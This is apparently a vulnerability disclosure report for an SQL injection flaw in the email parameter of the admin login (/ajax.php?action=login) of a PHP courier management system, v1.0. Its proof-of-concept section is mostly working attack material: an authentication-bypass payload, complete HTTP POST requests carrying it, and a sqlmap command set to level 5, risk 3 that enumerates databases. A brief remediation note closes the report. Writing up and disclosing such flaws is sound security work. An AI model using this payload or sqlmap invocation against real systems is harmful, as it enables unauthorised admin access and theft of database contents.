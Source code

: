 # courier management system - SQL Injection (Admin Login)

### Vendor Homepage:

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)

### Software Link:

> [courier management system](https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /ajax.php?action=login

> One parameters `email`  within admin login mechanism are vulnerable to SQL Injection.

In the admin_class.php code of the login process, it can be seen that no validation is performed on the email parameter and it is directly spliced into the SQL statement, leading to the possibility of SQL injection.

![courier1.png](https://github.com/baineoli/CVE/blob/main/2024/images/courier1.png?raw=true)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### Manual Exploitation

The payload `' and 1=1-- -` can be used to bypass authentication within admin login page.

The input tag detects the type of email, so add `' and 1=1-- - `after capturing the packet, then release the packet and refresh the page.

```
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.31.254
Content-Length: 50
Accept: */*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.31.254
Referer: http://192.168.31.254/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hpb2vs2p042l678hnd8o8g41gm
Connection: keep-alive

email=n%40admin.com'+and+1%3D1--+-&password=123456
```



### SQLMap

Save the following request to `admin_login.txt`:

```
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.31.254
Content-Length: 50
Accept: */*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.31.254
Referer: http://192.168.31.254/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=hpb2vs2p042l678hnd8o8g41gm
Connection: keep-alive

email=n%40admin.com'&password=123456
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
python sqlmap.py -r admin_login.txt --level 5 --risk 3 --batch --dbs
```

## Recommendations

When using this courier management system, the application code must be updated to ensure sanitization of user input and proper restrictions on special characters.